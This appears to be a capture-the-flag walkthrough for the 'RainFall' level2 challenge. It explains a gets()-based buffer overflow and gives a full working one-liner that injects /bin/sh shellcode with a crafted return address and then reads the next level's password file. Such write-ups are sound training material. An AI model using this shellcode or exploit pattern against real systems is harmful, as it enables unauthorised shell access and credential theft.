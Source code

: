 # Walkthrough

## 1. Disassembling the executable 

see source.c

## 2. Exploit

In this program, there is no call to a shell so we need to write our own payload and have the program jump to its address in order to execute it.
Conveniently, the variable b gets filled with a call to gets() (which should never be use) and then gets allocated into the heap.

We wrote a payload that write /bin/sh into our variable that will be duplicated into the heap and we jump in that location.

```
level2@RainFall:~$ (python -c "print('\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80' + 'A' * (80 -24)  + '\x08\xa0\x04\x08')"; echo "cat /home/user/level3/.pass") | ./level2 
```
